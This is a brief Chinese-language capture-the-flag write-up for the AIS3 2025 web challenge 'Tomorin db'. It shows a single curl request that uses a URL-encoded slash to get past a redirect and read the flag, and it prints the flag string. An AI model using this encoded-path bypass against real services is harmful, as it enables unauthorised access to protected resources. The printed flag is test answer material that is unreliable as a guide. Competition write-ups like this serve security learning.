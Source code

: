 ##### tags: `AIS3_Pre-exam_2025`
# AIS3 2025 Web : Tomorin db 🐧

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

<span class=""></span>

## <span class="red">題目</span>

- ![image](https://hackmd.io/_uploads/rJqJah0-ee.png)

## <span class="red">解題過程</span>

1. **前端能看到有 flag ，但是被設定成重新導向，所以目標是請求 flag ，但是要繞過重新導向。嘗試目錄爆破，最後成功用 
`curl http://chals1.ais3.org:30000/flag%2f.` 讀到 flag 檔 
(`%2f` 是 `/` 做 URL Encode)**

- ![image](https://hackmd.io/_uploads/rJBGanRWgg.png)
- ![image](https://hackmd.io/_uploads/Sy6P02CZxe.png)
- flag🚩 : `AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_cute_D0_yo7_L0ve_t0MoRIN?}`